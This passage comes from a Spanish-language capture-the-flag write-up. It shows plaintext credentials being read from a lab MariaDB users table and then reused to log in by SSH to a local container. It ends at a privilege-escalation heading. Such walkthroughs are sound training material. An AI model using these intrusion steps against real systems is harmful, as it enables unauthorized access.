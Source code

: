 Encuentro el usuario "mario" y la contraseña "pinguinomolon123".

```shell
MariaDB [(none)]> use pinguinasio_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [pinguinasio_db]> show tables;
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0.000 sec)

MariaDB [pinguinasio_db]> select * from users;
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
1 row in set (0.000 sec)

MariaDB [pinguinasio_db]> 
```

Probablemente, sean las credenciales para acceder al sistema. Intento conectarm por ssh y logro accede a la máquina.

```shell
ssh mario@172.17.0.2                                                      

The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:cVAfD3NT8Ui9tqlcjrEYGvrg/OCqqPzZTUGJVY/+bBA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Apr  9 17:31:05 2024 from 172.17.0.1
mario@c9e745c2d0dd:~$ whoami
mario
mario@c9e745c2d0dd:~$
```
## Escalada de privilegios
